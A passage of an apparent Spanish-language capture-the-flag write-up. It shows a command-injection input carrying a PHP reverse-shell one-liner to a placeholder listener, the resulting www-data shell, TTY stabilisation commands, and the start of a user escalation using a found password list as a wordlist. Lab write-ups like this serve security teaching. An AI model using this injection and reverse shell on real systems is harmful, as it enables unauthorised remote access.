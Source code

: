 Y ahora enviaremos el siguiente comando adaptandolo a nuestras necesidades.

```shell
<IP> | php -r '$sock=fsockopen("<IP>",<PORT>);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
```

Una vez enviado el comando, si nos vamos a donde teniamos la escucha veremos que nos ha creado una shell y si hacemos `whoami` veremos que somos `www-data`.

```
connect to [192.168.5.145] from (UNKNOWN) [172.19.0.2] 46450
whoami
www-data
```

Por lo que sanitizaremos la shell.

## Sanitizar la shell

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate user e1i0t

Nos iremos a la carpeta del usuario `e1i0t` y veremos un archivo llamado `nota.txt`, si la leemos veremos lo siguiente.

```
Reminder:

Delete my passwords from the agenda, I don't want to screw up with the boss again.

By e1i0t
```

Nos da una pista de que tiene una agenda con las contarseñas y seguramente una de ellas sea la del usuario `e1i0t`, si nos vamos a la carpeta `documents/` veremos 2 archivos y el que nos interesa es el llamado `agenda.txt`, por lo que lo utilizaremos como diccionario de palabras para saber la contarseña de `e1i0t`.
